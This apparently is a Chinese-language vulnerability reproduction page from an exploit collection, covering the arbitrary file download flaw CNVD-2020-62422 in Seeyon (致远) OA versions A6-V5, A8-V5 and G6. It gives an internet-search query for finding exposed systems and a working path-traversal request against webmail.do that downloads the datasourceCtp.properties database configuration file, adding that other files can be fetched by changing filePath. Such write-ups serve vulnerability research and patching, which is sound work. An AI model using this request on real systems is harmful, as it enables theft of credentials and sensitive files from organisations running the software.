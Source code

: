 # 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6-V5</a-checkbox></br>

<a-checkbox checked>致远OA A8-V5</a-checkbox></br>

<a-checkbox checked>致远OA G6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

验证POC

```php
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 `datasourceCtp.properties` 配置文件

![img](../../../.vuepress/public/img/zhiyuan-11.png)



更改参数 filePath 可下载其他文件